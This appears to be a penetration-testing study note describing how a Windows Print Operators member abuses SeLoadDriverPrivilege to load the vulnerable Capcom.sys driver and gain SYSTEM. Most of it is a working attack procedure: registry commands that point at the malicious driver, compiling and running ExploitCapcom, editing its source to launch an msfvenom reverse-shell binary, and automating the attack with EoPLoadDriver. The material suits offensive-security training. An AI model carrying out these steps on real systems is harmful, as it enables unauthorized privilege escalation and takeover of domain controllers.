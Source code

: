 # Windows Print Operators

* [Print Operators](https://docs.microsoft.com/en-us/windows/security/identity-protection/access-control/active-directory-security-groups#print-operators) is another highly privileged group, which grants its members the `SeLoadDriverPrivilege`, rights to manage, create, share, and delete printers connected to a Domain Controller, as well as the ability to log on locally to a Domain Controller and shut it down.

## Exploitation - With GUI

### Confirming Privileges

```cmd-session
whoami /priv
```

### Checking Privileges Again

* use admin cmd

```cmd-session
whoami /priv
```

```cmd-session
PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                          State
-----------------------------------------------------------
SeMachineAccountPrivilege     Add workstations to domain           Disabled
SeLoadDriverPrivilege         Load and unload device drivers       Disabled
SeShutdownPrivilege           Shut down the system			       Disabled
SeChangeNotifyPrivilege       Bypass traverse checking             Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set       Disabled
```

* It's well known that the driver `Capcom.sys` contains functionality to allow any user to execute shellcode with SYSTEM privileges.
* We can use our privileges to load this vulnerable driver and escalate privileges.
  * We can use [this](https://raw.githubusercontent.com/3gstudent/Homework-of-C-Language/master/EnableSeLoadDriverPrivilege.cpp) tool to load the driver.
    * The PoC enables the privilege as well as loads the driver for us.
* Download it locally and edit it, pasting over the includes below.

```c
#include <windows.h>
#include <assert.h>
#include <winternl.h>
#include <sddl.h>
#include <stdio.h>
#include "tchar.h"
```

* Next, from a Visual Studio 2019 Developer Command Prompt, compile it using **cl.exe**.

### Compile with cl.exe

```cmd-session
cl /DUNICODE /D_UNICODE EnableSeLoadDriverPrivilege.cpp
```

### Add Reference to Driver

```cmd-session
reg add HKCU\System\CurrentControlSet\CAPCOM /v ImagePath /t REG_SZ /d "\??\C:\Tools\Capcom.sys"
```

```cmd-session
 reg add HKCU\System\CurrentControlSet\CAPCOM /v Type /t REG_DWORD /d 1
```

* The odd syntax `\??\` used to reference our malicious driver's ImagePath is an [NT Object Path](https://learn.microsoft.com/en-us/openspecs/windows\_protocols/ms-even/c1550f98-a1ce-426a-9991-7509e7c3787c). The Win32 API will parse and resolve this path to properly locate and load our malicious driver.

### Verify Driver is not Loaded

* Using Nirsoft's [DriverView.exe](http://www.nirsoft.net/utils/driverview.html), we can verify that the Capcom.sys driver is not loaded

```powershell-session
.\DriverView.exe /stext drivers.txt
```

```powershell-session
cat drivers.txt | Select-String -pattern Capcom
```

* no output should come

### Verify Privilege is Enabled

* Run the `EnableSeLoadDriverPrivilege.exe` binary.

```cmd-session
EnableSeLoadDriverPrivilege.exe
```

### Verify Capcom Driver is Listed

```powershell-session
.\DriverView.exe /stext drivers.txt
```

```powershell-session
cat drivers.txt | Select-String -pattern Capcom
```

### Use ExploitCapcom Tool to Escalate Privileges

* To exploit the Capcom.sys, we can use the [ExploitCapcom](https://github.com/tandasat/ExploitCapcom) tool after compiling with it Visual Studio.

```powershell-session
.\ExploitCapcom.exe
```

* This launches a shell with SYSTEM privileges. !\[\[Pasted image 20240806113634.png]]

## Alternate Exploitation - No GUI

* &#x20;we will have to modify the `ExploitCapcom.cpp` code before compiling.
* Here we can edit line 292 and replace `"C:\\Windows\\system32\\cmd.exe"` with, say, a reverse shell binary created with `msfvenom`, for example: `c:\ProgramData\revshell.exe`.

```c
// Launches a command shell process
static bool LaunchShell()
{
    TCHAR CommandLine[] = TEXT("C:\\Windows\\system32\\cmd.exe");
    PROCESS_INFORMATION ProcessInfo;
    STARTUPINFO StartupInfo = { sizeof(StartupInfo) };
    if (!CreateProcess(CommandLine, CommandLine, nullptr, nullptr, FALSE,
        CREATE_NEW_CONSOLE, nullptr, nullptr, &StartupInfo,
        &ProcessInfo))
    {
        return false;
    }

    CloseHandle(ProcessInfo.hThread);
    CloseHandle(ProcessInfo.hProcess);
    return true;
}
```

* The `CommandLine` string in this example would be changed to:

```c
 TCHAR CommandLine[] = TEXT("C:\\ProgramData\\revshell.exe");
```

* We would set up a listener based on the `msfvenom` payload we generated and hopefully receive a reverse shell connection back when executing `ExploitCapcom.exe`.
* If a reverse shell connection is blocked for some reason, we can try a bind shell or exec/add user payload.

### Automating the Steps

#### Automating with EopLoadDriver

* We can use a tool such as [EoPLoadDriver](https://github.com/TarlogicSecurity/EoPLoadDriver/) to automate the process of enabling the privilege, creating the registry key, and executing `NTLoadDriver` to load the driver.
* To do this, we would run the following:

```cmd-session
EoPLoadDriver.exe System\CurrentControlSet\Capcom c:\Tools\Capcom.sys
```

* We would then run `ExploitCapcom.exe` to pop a SYSTEM shell or run our custom binary.

### Clean-up

#### Removing Registry Key

```cmd-session
reg delete HKCU\System\CurrentControlSet\Capcom
```

**Note: Since Windows 10 Version 1803, the "SeLoadDriverPrivilege" is not exploitable, as it is no longer possible to include references to registry keys under "HKEY\_CURRENT\_USER".**
